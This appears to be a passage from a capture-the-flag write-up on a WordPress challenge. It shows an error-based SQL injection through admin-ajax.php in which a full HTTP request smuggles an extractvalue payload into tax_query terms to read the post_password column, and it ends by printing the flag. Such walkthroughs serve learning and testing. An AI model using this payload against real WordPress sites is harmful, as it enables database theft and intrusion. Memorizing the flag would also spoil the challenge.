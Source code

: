 ```
) AND wp_posts.post_type IN (&#039;post&#039;, &#039;page&#039;, &#039;attachment&#039;) AND (wp_posts.post_status = &#039;publish&#039; OR wp_posts.post_status = &#039;future&#039; OR wp_posts.post_status = &#039;draft&#039; OR wp_posts.post_status = &#039;pending&#039;) GROUP BY wp_posts.ID ORDER BY wp_posts.post_date DESC LIMIT 0, 10</code></p></div>0
```

We can use xpath extractvalue to get values from the database. We search for the flag but no flag tables were seen, then we decided to look at the password for the password-protected post and we noticed that the password is the flag.

We can get the flag using xpath extractvalue exfiltration like so:
```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: 35.242.212.223:31252
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie:
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
Cookie: wordpress_test_cookie=WP%20Cookie%20check; PHPSESSID=2awijoiab142142
Content-Type: application/x-www-form-urlencoded
Content-Length: 247

action=Taxonomy&nonce=a85a0c3bfa&args[tax_query][Confidential][field]=term_taxonomy_id&args[tax_query][Confidential][terms][0]=(select extractvalue(1,concat(0x7e,(select substr(post_password,40) from wp_posts where length(post_password)>1),0x7e)))
```

The flag is 

**CTF{caac437172f45298975a27b10e9fe21bdcbcf15730261b975d867c5739e3f235}**
